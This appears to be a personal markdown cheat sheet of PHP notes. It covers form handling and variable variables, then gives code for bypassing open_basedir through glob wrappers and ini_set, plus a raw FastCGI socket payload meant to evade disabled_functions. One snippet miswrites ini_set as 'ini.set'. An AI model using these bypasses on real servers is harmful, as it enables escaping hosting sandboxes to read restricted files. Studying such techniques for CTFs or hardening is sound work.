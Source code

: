 # PHP Commands
* All of inputs in the form tag inside HTML are submitted as a dictionary with name as the dictionary key

* Check if a form has been submitted via `POST` method
```php
if (isset($_POST['submit'])){ // submitted }
```

* Get the value of a variable in the submitted form
```php
$_POST['VARIABLE']
```

* Similar syntax applies to the `GET` method, however, the `GET` variables will now be visible inside URL and added inside, separated with `&`

* `REQUEST` basically is a black box that you can use either `POST` or `GET`, and it cab have the effect of either

* To require a `PHP` file inside `HTML`
```php
<?php require_once 'index.php' ?>
```

* `${}` is the value of the referenced variable.
```php
$name = "Cat";          // name => "Cat";
${$name} = "Dog";       // name => "Cat"; $Cat => "Dog";
${${$name}} = "Monkey"; // name => "Cat"; $Cat => "Dog"; $Dog => "Monkey";
```

* Shows a file content
```php
highlight_file("index.php");
```

* Bypass `open_basedir` via glob wrapper, this leads to directory listing of `/`, root directory
```php
foreach(new DirectoryIterator("glob:///*") as $f) echo "$f\n";
foreach(new DirectoryIterator("glob:///tm?/*") as $f) echo "$f\n"; // getting file listing under /tmp/
foreach(new GlobIterator("/*") as $f) echo "$f\n";
```

* Bypass `open_basedir` by changing the `open_basedir` with `ini_set`, IF THIS IS NOT DISABLED
```php
ini.set('open_basedir', '..');
chdir(".."); chdir(".."); chdir("..");
ini.set('open_basedir', '/');
```

* Trying to bypass `disabled_functions` and `open_basedir` using `fpm`, still testing
```
$params = array(); $params['SCRIPT_NAME'] = $_SERVER['SCRIPT_NAME']; $params['SCRIPT_FILENAME'] = $_SERVER['SCRIPT_FILENAME']; $params['REQUEST_METHOD'] = 'GET'; $params['QUERY_STRING'] = 'stop=true'; $params['PHP_VALUE'] = 'open_basedir=/'; $params_encoded = ''; print_r($params); foreach ($params as $k=>$v) { $params_encoded.= chr(strlen($k)).chr(strlen($v)).$k.$v; } $len = strlen($params_encoded); $len_encoded = chr($len >> 8).chr($len & 255);
$fp = fsockopen('127.0.0.1',19260); fwrite($fp, "\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00"); fwrite($fp, "\x01\x04\x00\x01".$len_encoded."\x00\x00".$params_encoded); fwrite($fp, "\x01\x04\x00\x01\x00\x00\x00\x00"); fwrite($fp, "\x01\x05\x00\x01\x00\x00\x00\x00"); sleep(2); $result = ''; while (!feof($fp)) { $result .= fread($fp, 1024); } fclose($fp); $matches = array(); preg_match('/START.*END/s', $result, $matches); echo $matches[0];
```

